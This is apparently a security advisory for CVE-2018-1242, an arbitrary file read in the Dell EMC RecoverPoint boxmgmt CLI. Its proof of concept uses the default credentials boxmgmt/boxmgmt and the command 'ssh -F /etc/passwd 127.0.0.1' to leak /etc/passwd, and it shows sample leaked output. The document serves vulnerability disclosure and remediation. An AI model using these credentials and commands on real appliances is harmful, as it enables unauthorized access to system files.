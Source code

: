 ## EMC RecoverPoint boxmgmt CLI arbitrary file read

- Version: All versions before RP 5.1.2, and all versions before RP4VMs 5.1.1.3
- Date: 2018-05-21
- Vendor Advisory: DSA-2018-095
- Vendor KB: https://support.emc.com/kb/521234
- Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd
- Github: https://github.com/bao7uo/dell-emc_recoverpoint
- Website: https://www.foregenix.com/blog/foregenix-identify-dell-emc-recoverpoint-zero-day-vulnerabilities
- Tested on: Tested on: RP4VMs 5.1.1.2, RP 5.1.SP1.P2
- CVE: CVE-2018-1242
- Exploit-db: https://www.exploit-db.com/exploits/44688/

## 1. Description
When logging in as boxmgmt and running an internal command, the ssh command may be used to display the contents of files from the file system which are accessible to the boxmgmt user.

## 2. Proof of Concept

- Log in as boxmgmt via SSH (default credentials boxmgmt/boxmgmt)
- Select `[3] Diagnostics`
- Select `[5] Run Internal Command`
- `ssh -F /etc/passwd 127.0.0.1`

```
test-cluster: 5
This is the list of commands you are allowed to use: ALAT NetDiag arp arping date ethtool kps.pl netstat ping ping6 ssh telnet top uptime
Enter internal command: ssh -F /etc/passwd 127.0.0.1
/etc/passwd: line 1: Bad configuration option: root:x:0:0:root:/root:/bin/tcsh
/etc/passwd: line 2: Bad configuration option: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
/etc/passwd: line 3: Bad configuration option: bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
/etc/passwd: terminating, 34 bad configuration options
Command "ssh -F /etc/passwd 127.0.0.1" exited with return code 65280.
```

## 3. Solution:

Update to latest version of RecoverPoint
